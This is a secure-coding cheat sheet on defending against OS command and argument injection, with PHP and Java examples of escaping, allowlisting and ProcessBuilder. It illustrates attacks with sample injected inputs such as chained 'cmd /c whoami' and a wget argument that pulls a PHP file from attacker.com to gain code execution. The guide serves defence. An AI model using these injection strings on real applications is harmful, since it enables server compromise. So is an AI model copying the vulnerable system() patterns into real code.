

# OS Command Injection Defense Cheat Sheet

## Introduction

Command injection (or OS Command Injection) is a type of injection where software that constructs a system command using externally influenced input does not correctly neutralize the input from special elements that can modify the initially intended command.

For example, if the supplied value is:

``` shell
calc
```

when typed in a Windows command prompt, the application *Calculator* is displayed.

However, if the supplied value has been tampered with, and now it is:

``` shell
calc & echo "test"
```

when executed, it changes the meaning of the initial intended value.

Now, both the *Calculator* application and the value *test* are displayed:



The problem is exacerbated if the compromised process does not follow the principle of least privileges and attacker-controlled commands end up running with special system privileges that increase the amount of damage.

### Argument Injection

Every OS Command Injection is also an Argument Injection. In this type of attacks, user input can be passed as arguments while executing a specific command.

For example, if the user input is passed through an escape function to escape certain characters like `&`, `|`, `;`, etc.

```php

system("curl " . escape($url));
```

which will prevent an attacker to run other commands.

However, if the attacker controlled string contains an additional argument of the `curl` command:

```php

system("curl " . escape("--help"))
```

Now when the above code is executed, it will show the output of `curl --help`.

Depending upon the system command used, the impact of an Argument injection attack can range from **Information Disclosure** to critical **Remote Code Execution**.

## Primary Defenses

### Defense Option 1: Avoid calling OS commands directly

The primary defense is to avoid calling OS commands directly. Built-in library functions are a very good alternative to OS Commands, as they cannot be manipulated to perform tasks other than those it is intended to do.

For example use `mkdir()` instead of `system("mkdir /dir_name")`.

If there are available libraries or APIs for the language you use, this is the preferred method.

### Defense option 2: Escape values added to OS commands specific to each OS

For examples, see [escapeshellarg()](https://www.php.net/manual/en/function.escapeshellarg.php) in PHP.

The `escapeshellarg()` surrounds the user input in single quotes, so if the malformed user input is something like `& echo "hello"`, the final output will be like `calc '& echo "hello"'` which will be parsed as a single argument to the command `calc`.

Even though `escapeshellarg()` prevents OS Command Injection, an attacker can still pass a single argument to the command.

### Defense option 3: Parameterization in conjunction with Input Validation

If calling a system command that incorporates user-supplied cannot be avoided, the following two layers of defense should be used within software to prevent attacks:

#### Layer 1

**Parameterization:** If available, use structured mechanisms that automatically enforce the separation between data and command. These mechanisms can help provide the relevant quoting and encoding.

#### Layer 2

**Input validation:** The values for commands and the relevant arguments should be both validated. There are different degrees of validation for the actual command and its arguments:

- When it comes to the **commands** used, these must be validated against a list of allowed commands.
- In regards to the **arguments** used for these commands, they should be validated using the following options:
    - **Positive or allowlist input validation**: Where are the arguments allowed explicitly defined.
    - **Allowlist Regular Expression**: Where a list of good, allowed characters and the maximum length of the string are defined. Ensure that metacharacters like ones specified in `Note A` and whitespaces are not part of the Regular Expression. For example, the following regular expression only allows lowercase letters and numbers and does not contain metacharacters. The length is also being limited to 3-10 characters: `^[a-z0-9]{3,10}$`
- For commands that support it, use `--` to end option parsing. In [curl](https://curl.se/docs/manpage.html#OPTIONS), later arguments are still URL operands: `--` does not prevent additional transfers. Pass exactly one validated URL as one argument using a process API, and disable curl's [URL globbing](https://curl.se/docs/manpage.html#GLOBBING) with `--globoff`. Do not interpolate an unquoted value into a shell command. Argument separation does not validate the destination; apply [SSRF protections](Server_Side_Request_Forgery_Prevention_Cheat_Sheet.md).

**Note A:**

```text
& |  ; $ > < ` \ ! ' " ( )
```

## Additional Defenses

On top of primary defenses, parameterizations, and input validation, we also recommend adopting all of these additional defenses to provide defense in depth.

These additional defenses are:

- Applications should run using the lowest privileges that are required to accomplish the necessary tasks.
- If possible, create isolated accounts with limited privileges that are only used for a single task.

## Code examples

### Java

In Java, use [ProcessBuilder](https://docs.oracle.com/javase/8/docs/api/java/lang/ProcessBuilder.html) and the command must be separated from its arguments.

*Note about the Java's `Runtime.exec` method behavior:*

There are many sites that will tell you that Java's `Runtime.exec` is exactly the same as `C`'s system function. This is not true. Both allow you to invoke a new program/process.

However, `C`'s system function passes its arguments to the shell (`/bin/sh`) to be parsed, whereas `Runtime.exec` tries to split the string into an array of words, then executes the first word in the array with the rest of the words as parameters.

**`Runtime.exec` does NOT try to invoke the shell at any point and does not support shell metacharacters**.

The key difference is that much of the functionality provided by the shell that could be used for mischief (chaining commands using  `&`, `&&`, `|`, `||`, etc,  redirecting input and output) would simply end up as a parameter being passed to the first command, likely causing a syntax error or being thrown out as an invalid parameter.

*Code to test the note above:*

``` java
String[] specialChars = new String[]{"&", "&&", "|", "||"};
String payload = "cmd /c whoami";
String cmdTemplate = "java -version %s " + payload;
String cmd;
Process p;
int returnCode;
for (String specialChar : specialChars) {
    cmd = String.format(cmdTemplate, specialChar);
    System.out.printf("#### TEST CMD: %s\n", cmd);
    p = Runtime.getRuntime().exec(cmd);
    returnCode = p.waitFor();
    System.out.printf("RC    : %s\n", returnCode);
    System.out.printf("OUT   :\n%s\n", IOUtils.toString(p.getInputStream(),
                      "utf-8"));
    System.out.printf("ERROR :\n%s\n", IOUtils.toString(p.getErrorStream(),
                      "utf-8"));
}
System.out.printf("#### TEST PAYLOAD ONLY: %s\n", payload);
p = Runtime.getRuntime().exec(payload);
returnCode = p.waitFor();
System.out.printf("RC    : %s\n", returnCode);
System.out.printf("OUT   :\n%s\n", IOUtils.toString(p.getInputStream(),
                  "utf-8"));
System.out.printf("ERROR :\n%s\n", IOUtils.toString(p.getErrorStream(),
                  "utf-8"));
```

*Result of the test:*

```text
##### TEST CMD: java -version & cmd /c whoami
RC    : 0
OUT   :

ERROR :
java version "1.8.0_31"

##### TEST CMD: java -version && cmd /c whoami
RC    : 0
OUT   :

ERROR :
java version "1.8.0_31"

##### TEST CMD: java -version | cmd /c whoami
RC    : 0
OUT   :

ERROR :
java version "1.8.0_31"

##### TEST CMD: java -version || cmd /c whoami
RC    : 0
OUT   :

ERROR :
java version "1.8.0_31"

##### TEST PAYLOAD ONLY: cmd /c whoami
RC    : 0
OUT   :
mydomain\simpleuser

ERROR :
```

*Incorrect usage:*

```java
ProcessBuilder b = new ProcessBuilder("C:\\DoStuff.exe -arg1 -arg2");
```

This creates a builder with one command-list element, not a program followed by two arguments. [`ProcessBuilder`](https://docs.oracle.com/en/java/javase/21/docs/api/java.base/java/lang/ProcessBuilder.html) represents the executable and its arguments as a list. The snippet does not start a process or demonstrate shell-command injection.

*Correct Usage:*

This illustrative example starts a process with a modified working directory and passes the executable and each argument separately. Keep the executable and working directory trusted, and validate any untrusted arguments for the invoked program. Argument separation does not replace [argument validation](#layer-2).

``` java
ProcessBuilder pb = new ProcessBuilder("TrustedCmd", "TrustedArg1", "TrustedArg2");

Map<String, String> env = pb.environment();

pb.directory(new File("TrustedDir"));

Process p = pb.start();
```

### .Net

See relevant details in the [DotNet Security Cheat Sheet](DotNet_Security_Cheat_Sheet.md#os-injection)

### PHP

PHP exposes two helper functions when you must pass user input to a shell: `escapeshellarg()` and `escapeshellcmd()`.

`escapeshellarg()`:  Ensures the user can pass only one parameter to the command, cannot add extra parameters, and cannot execute a different command.

`escapeshellcmd()`: Ensures the user can execute only the intended command, can pass unlimited parameters, but cannot execute other commands.

It is always preferable to use `escapeshellarg()` rather than `escapeshellcmd()` when dealing with user input.

For example, consider this code using `wget` with `escapeshellcmd()`:

```php
$url = $_GET['url'];
$command = 'wget --directory-prefix=..\temp ' . $url;
system(escapeshellcmd($command));
```

If the user provides:

```text
http://victim.com/download.php?url=--directory-prefix=. http://attacker.com/malicious.php
```

`escapeshellcmd()` will still allow this extra parameter meaning the attacker can override the original `--directory-prefix` option, save the file in the current directory and then achieve remote command execution on the server.

The safe approach is to use `escapeshellarg()` so that the URL is treated as a single argument:

```php
$url = $_GET['url'];
$command = 'wget --directory-prefix=..\temp ' . escapeshellarg($url);
system($command);
```

Now the malicious input becomes:

```text
wget --directory-prefix=..\temp '--directory-prefix=. http://attacker.com/malicious.php'
```

Here, the second `--directory-prefix` is part of the quoted string, not a real option, so the attack fails.

In addition, it is good security practice to follow these recommendations:  

- **Hardcode the command**: never allow the user to choose which executable to run.  
- **Hardcode options**: required flags (e.g., `--directory-prefix`) should be in the code, not in user input.  
- **Validate and restrict input as much as possible**: apply strict validation rules, whitelists, and format checks to minimize the attack surface.

## References

- [SEI CERT C: Do not call system()](https://cmu-sei.github.io/secure-coding-standards/sei-cert-c-coding-standard/rules/environment-env/env33-c/)
- [CWE-77: Command Injection](https://cwe.mitre.org/data/definitions/77.html)
